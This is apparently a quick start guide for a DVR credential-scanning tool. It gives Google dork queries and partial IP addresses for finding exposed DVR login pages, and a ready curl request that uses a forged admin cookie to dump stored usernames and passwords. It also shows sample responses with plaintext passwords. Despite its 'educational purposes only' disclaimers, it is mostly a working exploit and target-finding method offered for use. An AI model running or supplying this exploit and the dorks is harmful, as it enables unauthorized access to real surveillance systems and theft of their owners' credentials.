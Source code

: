 # Quick Start Guide: DVR Credential Scanner

This guide will help you get started with the DVR Credential Scanner tool quickly.

## Step 1: Clone the Repository

Clone this repository to your local machine:

```bash
git clone https://github.com/its-anya/DVR_Credential_Scanner.git
```

## Step 2: Install Python

Make sure you have Python 3.6 or higher installed on your system.

To check your Python version, run:
```bash
python --version
```

If Python is not installed, download and install it from [python.org](https://www.python.org/downloads/).

## Step 3: Install Required Dependencies

Navigate to the project directory:
```bash
cd DVR_Credential_Scanner
```

Install the required packages:
```bash
pip install -r requirements.txt
```

## Step 4: Finding DVR Systems to Test

For educational purposes only, here are ways to find potentially vulnerable DVR systems:

### Using Google Search (Google Dorks)

Enter these search queries in Google:
```
intitle:"DVR LOGIN" -com
intitle:"DVR Login" -com
intitle:"XVR Login" -com
intitle:"MDVR Login" -com
intitle:"HVR Login" -com
```

Examples of IP addresses you might find:
- 91.201.122.x (with various ports like :14)
- 59.26.65.x (often on port :69)
- 47.113.219.x (might use port :226)

⚠️ **IMPORTANT**: Only test systems that you own or have explicit permission to test. Unauthorized testing is illegal.

## Step 5: Run the Tool

### Interactive Mode (Recommended)

Simply run the script without any arguments:
```bash
python dvr_scanner.py
```

You will be prompted to:
1. Enter the target host (IP address or hostname)
2. Enter the target port (press Enter to use the default port 80)
3. After scanning, you'll be asked if you want to scan another target

### Command-line Mode

Alternatively, you can specify the target directly:
```bash
python dvr_scanner.py --host [TARGET_IP] --port [TARGET_PORT]
```

Example:
```bash
python dvr_scanner.py --host 192.168.1.100 --port 80
```

### Manual Testing with curl

You can also manually test for the vulnerability using curl:

```bash
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

Example of a successful response:
```json
{"result":0,"list":[{"uid":"admin","pwd":"Op1234567#","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
```

If you don't receive a JSON response with credentials, the system is likely not vulnerable.

## Step 6: Understand the Results

If the target DVR is vulnerable, you will see output that looks like this:

```
 [+] DVR URL:		192.168.1.100:80
 [+] Total Users:	1

╭──────────────────────┬──────────────────────┬──────────────────────╮
│             Username │             Password │              Role ID │
├──────────────────────┼──────────────────────┼──────────────────────┤
│                admin │           password123 │                    1 │
╰──────────────────────┴──────────────────────┴──────────────────────╯
```

This shows the username, password, and role ID for each user account on the DVR system.

## ⚠️ Important Note

This tool is for **EDUCATIONAL PURPOSES ONLY**. Using this tool against systems without explicit permission is illegal. Only use this tool on systems you own or have permission to test.

## Troubleshooting

1. **Connection Timeout**:
   - Verify the IP address and port are correct
   - Check if the target system is online
   - Make sure you can reach the target from your network

2. **Invalid JSON Response**:
   - The target system may not be vulnerable to this exploit
   - The target might be using an updated firmware that fixed the vulnerability

3. **Permission Denied Errors**:
   - Try running the script with administrator privileges

For more detailed information, refer to the README.md file. 
